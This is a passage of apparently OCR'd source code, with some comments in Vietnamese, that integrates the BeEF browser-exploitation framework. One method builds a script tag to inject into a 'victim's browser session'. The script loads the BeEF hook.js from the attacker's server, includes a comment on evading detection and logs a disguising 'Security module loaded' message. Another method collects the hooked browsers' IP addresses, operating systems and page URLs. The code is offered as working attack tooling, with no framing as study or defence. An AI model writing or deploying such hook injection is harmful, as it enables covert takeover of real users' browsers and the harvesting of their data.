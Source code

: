```javascript
    }
}
```

#### 6. BeEF Framework Integration
**Integration Architecture**: RESTful API integration với real-time command execution
**Technologies**: BeEF Framework, WebSocket connections, JSON-RPC protocol

```python
class BeEFIntegrationManager:
    def __init__(self, beef_server_url, api_token):
        self.beef_url = beef_server_url
        self.api_token = api_token
        self.active_hooks = {}
        self.command_queue = asyncio.Queue()
    
    async def inject_beef_hook(self, victim_session_data):
        """Inject BeEF hook vào victim's browser session"""
        
        hook_script = f"""
        <script>
        (function() {{
            // Stealth injection để tránh detection
            var s = document.createElement('script');
            s.src = '{self.beef_url}/hook.js';
            s.async = true;
            s.onload = function() {{
                console.log('Security module loaded');
            }};
            
            // Inject at various DOM states
            if (document.readyState === 'loading') {{
                document.head.appendChild(s);
            }} else {{
                setTimeout(() => document.head.appendChild(s), 1000);
            }}
        }})();
        </script>
        """
        
        return hook_script
    
    async def get_hooked_browsers(self):
        """Retrieve list of browsers under BeEF control"""
        try:
            response = await self.make_beef_api_request('GET', '/api/hooks')
            
            hooked_browsers = []
            for hook_data in response.get('hooked-browsers', []):
                browser_info = {
                    'hook_id': hook_data['session'],
                    'ip_address': hook_data['ip'],
                    'user_agent': hook_data['name'],
                    'browser': hook_data['name'],
                    'os': hook_data['os'],
                    'last_seen': hook_data['lastseen'],
                    'page_url': hook_data['page_uri']
                }
                hooked_browsers.append(browser_info)
            
            return hooked_browsers
            
        except Exception as e:
            self.logger.error(f"Failed to retrieve hooked browsers: {e}")
```